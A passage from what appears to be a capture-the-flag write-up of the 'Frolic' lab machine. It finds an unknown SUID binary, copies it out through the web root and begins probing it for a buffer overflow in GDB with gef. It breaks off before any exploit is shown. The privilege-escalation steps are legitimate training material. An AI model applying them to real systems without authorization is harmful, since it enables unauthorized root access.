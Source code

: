 Also under interesting files, found an unknown SUID file.

```bash
1536   │ ════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
1537   │ ╔══════════╣ SUID - Check easy privesc, exploits and write perms
1538   │ ╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
...
1547   │ -rwsr-xr-x 1 root root 7.4K Sep 25  2018 /home/ayush/.binary/rop (Unknown SUID binary)
```

I moved the file under `uploads` so I can download to local and test.

```bash
www-data@frolic:/home/ayush/.binary$ cp rop /var/www/html/backup/rop
```


# Privilege escalation

### GDB (Buffer Overflow)

I open with GDB to see if there's buffer overflow.

```bash
ghost@localhost [04:56:50] [~/Documents/hacking/tj-null-boxes/forlic] [master *]
-> % gdb rop
GNU gdb (Debian 12.1-3) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from rop...
(No debugging symbols found in rop)
(gdb) r Hello World
Starting program: /home/ghost/Documents/hacking/tj-null-boxes/forlic/rop Hello World
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[+] Message sent: Hello[Inferior 1 (process 676457) exited normally]
```

Using `gef` to test bufferoverflow.

```bash
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  $_gef0
Undefined command: "$_gef0".  Try "help".
gef➤  echo _gef0
_gef0gef➤
_gef0gefaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaayaaa
Starting program: /home/ghost/Documents/hacking/tj-null-boxes/frolic/rop aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
